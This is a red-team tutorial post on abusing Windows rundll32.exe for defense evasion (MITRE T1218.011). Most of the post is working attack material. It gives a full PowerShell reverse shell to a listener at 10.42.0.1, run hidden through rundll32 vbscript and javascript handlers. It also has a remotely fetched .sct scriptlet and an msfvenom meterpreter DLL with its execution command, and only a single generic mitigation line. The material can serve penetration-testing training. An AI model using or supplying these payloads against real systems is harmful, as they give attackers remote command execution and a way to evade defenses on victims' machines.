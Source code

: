 ```yaml
---
title: RUNDLL32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: []  
---
```


# MITRE
- ID : `T1218.011`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# RUNDLL32
***rundll32.exe*** Is a windows utility that Loads and runs 32-bit dynamic-link libraries (DLLs).Adversaries may abuse rundll32.exe to proxy execution of malicious code.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("calc.exe"),0)

```
*invoking calculator*
![vbscalc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllcalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file [path/to/your/file.ps1]"":"),0)`

*Executing rev.ps1 to get a reverse shell*
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file rev.ps1"":"),0)

```
![vbsrevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevwin.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```
Command

> `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:[file_url]").Exec();`

*executing rundll32 to get reverse shell*
```batch

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.42.0.1/exploit.sct").Exec();

```

![rundll32win](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundlljsrevwin.png)

*getting reversh shell*

![rundll32](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

## Metasploit 

### Generating .dll Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f dll -o [file_name.dll]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 -f dll -o exploit.dll
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: exploit.dll

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
exploit.dll

```

### Getting Meterpreter Shell

*executing rundll32 in windows*

command

> `rundll32 shell32.dll,Control_RunDLL [dll_file_path]`

```batch
rundll32 shell32.dll,Control_RunDLL C:\Users\IEUser\Desktop\exploit.dll
```
![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmetawin.png)

*setting metasploit listener, getting reverse shell*

![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring

# References

- [https://atomicredteam.io/defense-evasion/T1218.011/](https://atomicredteam.io/defense-evasion/T1218.011/)
- [https://attack.mitre.org/techniques/T1218/011/](https://attack.mitre.org/techniques/T1218/011/)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

